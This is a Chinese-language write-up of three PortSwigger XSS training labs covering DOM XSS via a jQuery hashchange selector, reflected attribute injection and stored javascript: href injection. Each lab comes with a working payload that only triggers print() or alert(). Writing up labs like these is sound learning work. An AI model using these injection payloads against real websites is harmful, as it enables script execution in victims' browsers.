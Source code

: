 ```yaml
---
title: "Portswigger Web lab writeup: Cross-site scripting"
date: 2023-08-29T00:00:00+08:00
---
```


_前面还有几道以前做的 毕竟简单不是很有必要重新记录_

## Lab: [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in jQuery selector sink using a hashchange event

JQuery: 

```js
$(window).on('hashchange', function(){
                            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                            if (post) post.get(0).scrollIntoView();
                        });
```

当 URL 的片段标识符更改时，将触发**hashchange**事件，传递到 Jquery 选择器，选择到 h2 中 存在 `decodeURIComponent(window.location.hash.slice(1))` 的元素（自然是不存在）。然后`scrollIntoView()`使用户可见。

因而 payload 要触发 haschange 事件。


```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into attribute with angle brackets HTML-encoded

属性注入。这个我熟 

查阅 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```js
" autofocus onfocusin=alert(window.origin) b="
```

## Lab: [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) into anchor `href` attribute with double quotes HTML-encoded

要实现点击名字的时候alert，测试发现点击跳转到填入的website。js伪协议直接过

```js
javascript:alert(window.origin)
```
